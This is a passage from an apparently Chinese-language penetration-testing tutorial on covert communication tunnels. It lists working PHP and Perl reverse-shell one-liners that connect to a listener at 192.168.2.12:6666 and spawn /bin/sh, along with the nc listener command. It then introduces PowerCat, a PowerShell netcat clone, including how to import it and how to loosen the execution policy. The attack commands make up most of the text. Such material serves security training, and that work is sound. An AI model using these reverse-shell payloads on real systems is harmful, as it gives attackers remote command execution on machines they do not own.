 客户端执行命令反弹shell给服务端：

```
php -r '$sock=fsockopen("192.168.2.12",6666);exec("/bin/sh -i <&3 >&3 2>&3");'
```

（13）perl反弹shell

服务端监听本地端口6666：
```
nc -lvp 6666
```
客户端执行命令反弹shell给服务端：

```
perl -e 'use Socket;$i="192.168.2.12";$p=6666;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

参考文章：https://www.anquanke.com/post/id/87017

##### 4.3：PowerCat
PowerCat可以说是nc的Powershell版本。

PowerCat可以通过执行命令回到本地运行，也可以使用远程权限运行。

下载地址：https://github.com/besimorhino/powercat.git

（1）PowerCat的下载

下载完成后，要想使用需要先导入模块：

```
Import-Module .\powercat.ps1
```

![](/assets/img/隐藏通信隧道基础知识/45.png)

报错是Powershell的权限问题，我们可以吧权限设置成RemotoSigned，然后再导入模块：

```
Set-ExecutionPolicy RemoteSigned
```

![](/assets/img/隐藏通信隧道基础知识/46.png)
